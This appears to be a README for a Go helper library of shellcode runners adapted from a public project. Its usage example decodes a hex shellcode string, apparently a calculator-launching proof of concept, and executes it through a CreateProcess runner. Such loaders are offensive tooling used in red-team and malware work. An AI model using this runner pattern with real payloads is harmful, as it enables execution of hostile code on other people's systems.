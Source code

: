 # go-shellcode-helper

- Copy from https://github.com/Ne0nd0g/go-shellcode
- Edit every shellcode runner method to function for ease to import
    - Only Changed method that only requires shellcode
    - Methods such as CreateRemoteThread that needs pid is not changed

- Usage

```golang

func main() {

    shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")
    CreateProcess.Run(shellcode)

}


```